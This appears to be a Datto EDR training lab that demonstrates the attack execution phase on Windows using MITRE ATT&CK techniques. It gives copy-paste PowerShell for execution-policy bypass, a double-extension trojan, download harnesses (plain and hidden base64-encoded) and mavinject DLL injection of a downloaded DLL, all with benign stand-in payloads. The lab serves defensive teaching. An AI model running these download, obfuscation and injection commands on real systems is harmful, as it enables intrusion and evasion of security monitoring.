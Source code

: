 ```yaml
---
title: ATT&CK - Execution Phase
description: Demonstrate the execution phase of an attack
author: Chris Gerritz, Datto
created: 02/19/2023
achievements:
duration: 20
range:
- Windows
applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
external:
- attack.mitre.org
- rightofboom.infocyte.com
- live.sysinternals.com/psexec.exe
- github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. 

Lab 2 will demonstrate a post-compromise execution phase of an attack where initial exploits have already granted privileged access to the target system and now you need to execute some commands and download/execute additional malware payloads.

Typically, the 'Initial Execution' will be a very small command called a download harness and this is executed in one of two ways:
1. Via an exploit of a vulnerable application
2. Via an internal user through social engineering

In order to grant the attacker additional functionality such as recon, lateral movement or ransomware staging, they will need to inject a more feature rich malware type called a Remote Access Tool (aka a "RAT") following that initial execution. This follow on execution will utilize administrative commands which we can detect during behavioral monitoring.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the initial steps of an attack that uses staged malware
2. Demonstrate some execution techniques to get initial trojans or follow-on malware payloads to run

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Copy and paste this command into the terminal:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
	```
-----
## Instructions

For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 



### 1. Double Extension Execution
> *Initial execution is often through a social engineering attack. This first technique hides an executable as a pdf file. The hope is the user will download this file and double click it to see what it is. When they do, our trojan will execute and give us a (simulated) callback where we can tell it to run additional commands.*

Execute a file with a **Double Extension**. 
- MITRE ATT&CK Technique: [ATT&CK T1204.002 - Execution - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002)
- MITRE ATT&CK Technique: [ATT&CK T1036.007 - Evasion - Masquerading: Double File Extension](https://attack.mitre.org/techniques/T1036/007)
- Copy and paste this command into the terminal:
	```PowerShell
	# Double Extension
	Write-Host -ForegroundColor Cyan "Initiating a T1204.002 - Malicious File Extension with Double Extension evasion"
	$MalwarePath = "C:\Windows\System32\calc.exe"
	$TrojanPath = "$Env:USERPROFILE\Desktop\freemoney.pdf.exe"

	Copy-Item -Path $MalwarePath -Destination $TrojanPath -Force
	Get-Item $TrojanPath
	Write-Host -ForegroundColor Cyan "Go ahead and double click freemoney.pdf on your desktop"
	```
- Next, go to your desktop and double click freemoney.pdf and see what happens.


### 2. Powershell Download Harness
> *The following method is used by some malware to download and execute an additional file using Powershell. This is the simplest way to do this and often used legitimatly so the technique can blend the malicious action in with existing noise produced by admins.*

Execute a simple **Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Powershell Download Hardness
	Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Download Harness"
	$url = "https://live.sysinternals.com/psexec.exe"
	$filename = "$env:TEMP\bad.exe"

	$cmd = "(new-object System.Net.WebClient).DownloadFile('$url', '$filename'); Start-Sleep -m $n"
	Write-Host -ForegroundColor Cyan "Running Command:"
	Write-Host -ForegroundColor Green "Powershell.exe -command '$cmd'"
	Powershell.exe -command $cmd

	Get-Item $filename
	```


### 3. Hidden & Encoded Powershell Download Harness
> *Most attackers aren't going to want you seeing the command or the powershell window poping up so they will use obfuscation and stealth techniques with this.*

Execute it again, but this time as a **Hidden & Encoded Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- MITRE ATT&CK Technique: [ATT&CK T1027 - Evasion - Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027)
- Copy and paste this command into the terminal:
	```PowerShell
	# Encoded and Hidden Powershell Download Harness
	Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Encoded and hidden Download Harness"
	$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Cmd)
	)
	Write-Host -ForegroundColor Cyan "Running Command:"
	Write-Host -ForegroundColor Green "powershell.exe -win H -NoP -e '$EncodedCommand'"
	powershell.exe -win H -NoP -e $EncodedCommand
	```

w> This will hide your browser, you may need to open a new browser after performing this command.


### 4. System Binary Proxy Execution
> *One method to evade antivirus is to force a legitimate system application to run the attacker's code/malware on the attacker's behalf. A common method is to inject the malware's code as a library into the memory of a system process.*
>
> *The method we'll demonstrate today is a Microsoft utility called `mavinject`.  Mavinject.exe is the **Microsoft Application Virtualization Injector**, a Windows utility that can inject code into external processes as part of Microsoft Application Virtualization (App-V). This utility is installed by default on most modern Windows versions but shouldn't really be used unless App-V is in use.*

1. Use mavinject.exe to perform a **System Binary Proxy Execution** technique
- [ATT&CK T1218.013 - Defense Evasion - Signed Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/013)
- [ATT&CK T1055.001 - Defense Evasion - Process Injection: Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001)
- Copy and paste this command into the terminal:
	```PowerShell
	$n = 1000+$(Get-Random -Max 999)
	# Signed Binary Proxy Execution w/ mavinject.exe
	Write-Host -ForegroundColor Cyan "Initiating a T1218.013 - Signed Binary Proxy Execution using mavinject.exe"
	$malwareURL = "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll"
	# start and inject into notepad or calc
	$targetProcessName = "notepad"
	$cmd = @"
		`$targetProcessId = (Start-Process $targetProcessName -PassThru).id
		Invoke-WebRequest $malwareURL -OutFile "$env:temp\T1055.001.dll"
		mavinject `$targetProcessId /INJECTRUNNING $env:temp\T1055.001.dll
		Start-Sleep -m $n
	"@
	powershell.exe -nop -command $cmd
	```

	s> If you are successful, the code we are injecting will force notepad to run a popup that says "Locked and Loaded".